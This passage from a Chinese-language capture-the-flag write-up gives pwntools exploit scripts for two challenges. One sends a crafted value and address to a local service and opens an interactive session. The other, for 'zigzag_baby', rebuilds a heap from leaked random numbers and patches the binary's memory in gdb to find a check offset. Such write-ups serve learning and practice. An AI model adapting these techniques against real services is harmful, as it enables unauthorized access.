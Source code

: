 exp:

```python-repl=
from pwn import *
import socket

p = remote('0.0.0.0', 9999)

p.sendline(str(0xdeadbeef))
p.send(p16(9998)[::-1]+socket.inet_aton('0.0.0.0'))

p.interactive()
```

## zigzag_baby

> 获取flag1

由于这是一个猜位置的游戏，而且产生的随机数都给出了，所以我们不需要管中间的逻辑，直接gdb中模拟运行，修改内存，然后任由后面接着跑即可

```python-repl=
from pwn import *

context.terminal = ['gnome-terminal', '-x', 'bash', '-c']
p = remote('0.0.0.0', 9999)
# p = process('./zigzag')

tmp = int(p.recvuntil(' '), 16)
lheap = [tmp]
for i in range(1, 0xfff):
    tmp = p.recvuntil(' ')
    lheap.append(int(tmp, 16))
    k = i
    while lheap[k] < lheap[(k+1)//2-1]:
        tmp = lheap[k]
        lheap[k] = lheap[(k+1)//2-1]
        lheap[(k+1)//2-1] = tmp
        k = k//2
passwd = lheap[-1]

gdb_script = 'b *$rebase(0x3012)\nc\n'
for k, v in enumerate(lheap):
    gdb_script += f'set *((long long*)&tree+{3+k})={v}\n'
gdb_script += f'b main\nc\nsearch -8 {passwd}\n'
g = gdb.debug('./zigzag', gdb_script)
g.interactive()

p.interactive()
```

找到5个结果，第二个值得地址就是Tree::sign判断逻辑中tree[0x1003+idx]的地址，用&tree[0x1003+idx]-&tree[0x1003]就能得到偏移量idx

![](https://md.buptmerak.cn/uploads/upload_a9442a7701f2cdd1617879f6db066fe7.png)
